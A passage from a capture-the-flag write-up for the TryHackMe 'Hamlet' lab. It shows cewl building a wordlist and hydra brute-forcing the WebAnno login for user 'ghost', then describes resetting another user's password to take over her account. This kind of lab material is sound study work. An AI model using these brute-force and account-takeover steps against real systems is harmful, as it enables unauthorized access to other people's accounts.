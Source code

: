 To answer the task 1 we must get "Michael's password". From http://hamlet.thm/index.html. We know that Michael's username is *ghost* and that *he's obsessed with Hamlet and the vocabulary used by Shakespeare.*

We also know the password policy for WebAnno from the file we got from the FTP server. With that in hands, let's build a custom wordlist to bruteforce Michael's password.

```
$ cewl --lowercase -m 12 -d 1 http://hamlet.thm | grep -E '.{,14}' > password.txt
$ hydra -l ghost -P ./password.txt hamlet.thm -s 8080 http-post-form "/login.html?-1.-loginForm:urlfragment=&username=^USER^&password=^PASS^:F=failed"

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service
[...]
[8080][http-post-form] host: hamlet.thm   login: ghost   password: (redacted)
```

We have the answer to task 1 and we can now login to WebAnno to begin exploring it.

## Third flag && Fourth flag && Foothold

### WebAnno exploration

Start by looking at the users list. We can see that we have admin privileges as *ghost*. There is another user named *ophelia*. Let's abuse our privileges to change ophelia's password and log into her account.

In the annotations section, open hamlet.txt and look at the annotations ophelia has created

![annotation](/assets/img/thm-hamlet/hamlet-3.png "annotation")
